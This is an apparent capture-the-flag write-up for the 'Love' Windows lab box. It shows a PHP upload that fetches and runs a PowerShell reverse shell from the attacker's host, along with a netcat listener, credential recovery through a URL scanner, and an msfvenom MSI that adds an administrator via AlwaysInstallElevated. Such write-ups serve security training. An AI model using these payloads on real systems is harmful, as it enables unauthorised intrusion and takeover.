---
search:
  exclude: true
---
# Love Writeup

## Introduction :

Love is an easy Windows box released back in May 2021. 

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
    [ 10.10.14.34/23 ] [ /dev/pts/21 ] [~/HTB]
    → nmap -vvv -p- 10.129.48.103 --max-retries 0 -Pn --min-rate=500 2>/dev/null | grep Discovered
    Discovered open port 135/tcp on 10.129.48.103
    Discovered open port 3306/tcp on 10.129.48.103
    Discovered open port 80/tcp on 10.129.48.103
    Discovered open port 445/tcp on 10.129.48.103
    Discovered open port 443/tcp on 10.129.48.103
    Discovered open port 139/tcp on 10.129.48.103
    Discovered open port 7680/tcp on 10.129.48.103
    Discovered open port 49668/tcp on 10.129.48.103
    Discovered open port 49667/tcp on 10.129.48.103
    Discovered open port 49664/tcp on 10.129.48.103
    Discovered open port 47001/tcp on 10.129.48.103
    Discovered open port 49666/tcp on 10.129.48.103
    Discovered open port 5040/tcp on 10.129.48.103
    Discovered open port 49669/tcp on 10.129.48.103
    Discovered open port 49665/tcp on 10.129.48.103
    Discovered open port 49670/tcp on 10.129.48.103
    
    [ 10.10.14.34/23 ] [ /dev/pts/21 ] [~/HTB]
    → nmap -sCV -p135,80,139,445,443   10.129.48.103
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-10 20:19 CEST
    Nmap scan report for 10.129.48.103
    Host is up (0.45s latency).
    
    PORT    STATE SERVICE      VERSION
    80/tcp  open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
    | http-cookie-flags:
    |   /:
    |     PHPSESSID:
    |_      httponly flag not set
    |_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
    |_http-title: Voting System using PHP
    135/tcp open  msrpc        Microsoft Windows RPC
    139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
    443/tcp open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
    |_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
    |_http-title: 403 Forbidden
    | ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
    | Not valid before: 2021-01-18T14:00:16
    |_Not valid after:  2022-01-18T14:00:16
    |_ssl-date: TLS randomness does not represent time
    | tls-alpn:
    |_  http/1.1
    445/tcp open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
    Service Info: Hosts: www.example.com, LOVE; OS: Windows; CPE: cpe:/o:microsoft:windows
    
    Host script results:
    |_clock-skew: mean: 2h41m33s, deviation: 4h02m31s, median: 21m32s
    | smb-os-discovery:
    |   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
    |   OS CPE: cpe:/o:microsoft:windows_10::-
    |   Computer name: Love
    |   NetBIOS computer name: LOVE\x00
    |   Workgroup: WORKGROUP\x00
    |_  System time: 2021-08-10T11:41:29-07:00
    | smb-security-mode:
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    | smb2-security-mode:
    |   2.02:
    |_    Message signing enabled but not required
    | smb2-time:
    |   date: 2021-08-10T18:41:32
    |_  start_date: N/A
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 39.83 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80 at love.htb (see the SSL Cert) so let's investigate it: 
    
    
    [ 10.10.14.34/23 ] [ /dev/pts/21 ] [~/HTB]
    → sudo -i
    [sudo] password for nothing:
    ┌──(root💀nowhere)-[~]
    └─# echo '10.129.48.103 love.htb' >> /etc/hosts
    
    ┌──(root💀nowhere)-[~]
    └─# ping love.htb
    PING love.htb (10.129.48.103) 56(84) bytes of data.
    64 bytes from love.htb (10.129.48.103): icmp_seq=1 ttl=127 time=24.4 ms
    64 bytes from love.htb (10.129.48.103): icmp_seq=2 ttl=127 time=28.5 ms
    64 bytes from love.htb (10.129.48.103): icmp_seq=3 ttl=127 time=23.3 ms
    ^C
    --- love.htb ping statistics ---
    3 packets transmitted, 3 received, 0% packet loss, time 2003ms
    rtt min/avg/max/mdev = 23.337/25.387/28.458/2.211 ms
    
    ┌──(root💀nowhere)-[~]
    └─# exit
    
    [ 10.10.14.34/23 ] [ /dev/pts/21 ] [~/HTB]
    →
    

` 

Here we get a login form, nothing interesting there, so we check out the subdomain that our nmap scan picked up at **staging.love.htb** after editing our /etc/hosts file:
    
    
    o
    [ 10.10.14.34/23 ] [ /dev/pts/1 ] [~/HTB]
    → cat /etc/hosts | grep love.htb
    10.129.48.103 staging.love.htb love.htb
    

` 

Clicking on 'Demo', redirects us to **/beta.php** which wants us to specify an URL to scan a file:



So here we can apparently get the box to scan what it interprets as local addresses, so let's try the other ports our nmap scan picked up:



Here's why this is an easy box, using the file scan feature we make it scan it's own port 5000 that our nmap scan picked up and the html file it returns is basically showing us admin credentials with the password **@LoveIsInTheAir!!!!**

So for the next step let's use the credentials we just got to login as admin into the love.htb login form we found earlier:

 

And we're logged in as the "Neo Devierte" user! Now from here we navigate to the 'voters' page:

 

So here's the plan:

So from here we know a few things, first this is a windows machine, so we know that we will probably need a reverse shell **payload for powershell** , probably we're going to use **[nishang's revshell ps1](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell)** for that, Second of all we know that this box uses **php** , therefore we need a payload to make the box run **exec()** to download our revshell ps1 payload and execute it in order to get a reverse shell, so we prepare our 2 payloads: 
    
    
    [term1]
    [ 10.10.14.34/23 ] [ /dev/pts/13 ] [~/HTB/Love]
    → nc -lvnp 9001
    Listening on 0.0.0.0 9001
    
    
    [term2]
    [ 10.10.14.34/23 ] [ /dev/pts/1 ] [~/HTB/Love]
    → curl https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1 > revshell.ps1
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100  4339  100  4339    0     0  61112      0 --:--:-- --:--:-- --:--:-- 61112
    
    [ 10.10.14.34/23 ] [ /dev/pts/1 ] [~/HTB/Love]
    → vim revshell.ps1
    
    [ 10.10.14.34/23 ] [ /dev/pts/1 ] [~/HTB/Love]
    → tail -n2 revshell.ps1
    Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.34 -Port 9001
    
    [ 10.10.14.34/23 ] [ /dev/pts/1 ] [~/HTB/Love]
    → vim shell.php
    
    [ 10.10.14.34/23 ] [ /dev/pts/1 ] [~/HTB/Love]
    → cat shell.php
    <****?php echo exec("powershell IEX (New-Object Net.WebClient).DownloadString('**http://10.10.14.34:9090/revshell.ps1** ')"); ?>
    
    

Now we're going to host the **revshell.ps1** payload we just made with a simple python3 http server **on port 9090**
    
    
    [term2]
    [ 10.10.14.34/23 ] [ /dev/pts/1 ] [~/HTB/Love]
    → cat shell.php
    <****?php echo exec("powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.34/revshell.ps1')"); ?>
    
    [ 10.10.14.34/23 ] [ /dev/pts/1 ] [~/HTB/Love]
    → cat revshell.ps1 | tail -n2
    Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.34 -Port 9001
    
    
    [ 10.10.14.34/23 ] [ /dev/pts/1 ] [~/HTB/Love]
    → python3 -m http.server 9090
    Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...

Once that's done, we upload our shell.php file through the image upload and see if we get a reverse shell connection back:

 

We successfully managed to upload our shell.php file as the voter's profile picture, and when we check our terminal we see that our plan got executed:
    
    
    [term2]
    [ 10.10.14.34/23 ] [ /dev/pts/1 ] [~/HTB/Love]
    → python3 -m http.server 9090
    Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
    10.129.48.103 - - [13/Aug/2021 21:49:33] "GET /revshell.ps1 HTTP/1.1" 200 -
    
    [term1]
    [ 10.10.14.34/23 ] [ /dev/pts/13 ] [~/HTB/Love]
    → nc -lvnp 9001
    Listening on 0.0.0.0 9001
    Connection received on 10.129.48.103 62349
    Windows PowerShell running as user Phoebe on LOVE
    Copyright (C) 2015 Microsoft Corporation. All rights reserved.
    
    PS C:\xampp\htdocs\omrs\images>whoami
    love\phoebe
    

And we have a reverse shell back! Now let's see if we can get to the user's flag:
    
    
    PS C:\xampp\htdocs\omrs\images> cd ~
    PS C:\Users\Phoebe> ls
    
    
        Directory: C:\Users\Phoebe
    
    
    Mode                 LastWriteTime         Length Name
    ----                 -------------         ------ ----
    d-r---         4/12/2021   3:50 PM                3D Objects
    d-r---         4/12/2021   3:50 PM                Contacts
    d-r---         4/13/2021   3:20 AM                Desktop
    d-r---         4/12/2021   3:50 PM                Documents
    d-r---         4/13/2021   9:55 AM                Downloads
    d-r---         4/12/2021   3:50 PM                Favorites
    d-r---         4/12/2021   3:50 PM                Links
    d-r---         4/12/2021   3:50 PM                Music
    d-r---         4/12/2021   3:52 PM                OneDrive
    d-r---         4/21/2021   7:01 AM                Pictures
    d-r---         4/12/2021   3:50 PM                Saved Games
    d-r---         4/12/2021   3:51 PM                Searches
    d-r---         4/23/2021   3:39 AM                Videos
    
    
    PS C:\Users\Phoebe> type Desktop\user.txt
    b2XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And we have been able to get the user flag!

## **Part 3 : Getting Root Access**

Now in order to get to the Administrator Privileges, we need to enumerate the box, let's do so using **Invoke-winPEAS.ps1** by powershell-empire: 
    
    
    [term1]
    [ 10.10.14.34/23 ] [ /dev/pts/12 ] [~/HTB/Love]
    → locate winPEAS | grep ps1
    /home/nothing/HTB/Buff/Invoke-winPEAS.ps1
    /home/nothing/HTB/Omni/SirepRAT/Invoke-winPEAS.ps1
    /home/nothing/HTB/Sauna/Invoke-winPEAS.ps1
    /usr/share/powershell-empire/empire/server/data/module_source/privesc/Invoke-winPEAS.ps1
    
    [ 10.10.14.34/23 ] [ /dev/pts/12 ] [~/HTB/Love]
    → cp /home/nothing/HTB/Buff/Invoke-winPEAS.ps1 .
    
    [ 10.10.14.34/23 ] [ /dev/pts/12 ] [~/HTB/Love]
    → python3 -m http.server 9090
    Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
    
    [term2]
    PS C:\Users\Phoebe> curl http://10.10.14.34:9090/Invoke-winPEAS.ps1 -o peas.ps1
    PS C:\Users\Phoebe> ls
    
    
        Directory: C:\Users\Phoebe
    
    
    Mode                 LastWriteTime         Length Name
    ----                 -------------         ------ ----
    d-r---         4/12/2021   3:50 PM                3D Objects
    d-r---         4/12/2021   3:50 PM                Contacts
    d-r---         4/13/2021   3:20 AM                Desktop
    d-r---         4/12/2021   3:50 PM                Documents
    d-r---         4/13/2021   9:55 AM                Downloads
    d-r---         4/12/2021   3:50 PM                Favorites
    d-r---         4/12/2021   3:50 PM                Links
    d-r---         4/12/2021   3:50 PM                Music
    d-r---         4/12/2021   3:52 PM                OneDrive
    d-r---         4/21/2021   7:01 AM                Pictures
    d-r---         4/12/2021   3:50 PM                Saved Games
    d-r---         4/12/2021   3:51 PM                Searches
    d-r---         4/23/2021   3:39 AM                Videos
    -a----         8/13/2021   1:24 PM         233056 peas.ps1
    
    
    
    PS C:\Users\Phoebe> import-module ./peas.ps1
    PS C:\Users\Phoebe> Invoke-winPEAS
    

` 

Let it run a bit, and then scrolling down we see the following:



So when these 2 registers are enabled, then users of any privilege can install **.msi** files as **NT AUTHORITY\SYSTEM** , therefore we can simply go to the suggested link to hacktricks.xyz [here](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated):



TLDR we're going to generate a malicious **privesc.msi** file using **metasploit** in order to create an account with admin permissions to be able to access the box remotely with admin access:
    
    
    [term 1]
    [ 10.10.14.34/23 ] [ /dev/pts/12 ] [~/HTB/Love]
    → msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o alwe.msi
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    No encoder specified, outputting raw payload
    Payload size: 284 bytes
    Final size of msi file: 159744 bytes
    Saved as: alwe.msi
    
    [ 10.10.14.34/23 ] [ /dev/pts/12 ] [~/HTB/Love]
    → python3 -m http.server 9090
    Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
    10.129.48.103 - - [13/Aug/2021 22:39:22] "GET /alwe.msi HTTP/1.1" 200 -
    
    [term 2]
    PS C:\Users\Phoebe> curl http://10.10.14.34:9090/alwe.msi -o privesc.msi
    PS C:\Users\Phoebe> msiexec /qn /i privesc.msi
    
    [term 3]
    [ 10.10.14.34/23 ] [ /dev/pts/15 ] [~/HTB/Love]
    → evil-winrm -u rottenadmin -p 'P@ssword123!' -i 10.129.48.103
    
    Evil-WinRM shell v2.4
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\rottenadmin\Documents> cd C:\Users\Administrator\Desktop
    *Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
    c7XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And that's it! We managed to get the root flag. 

## **Conclusion**

Here we can see the progress graph :

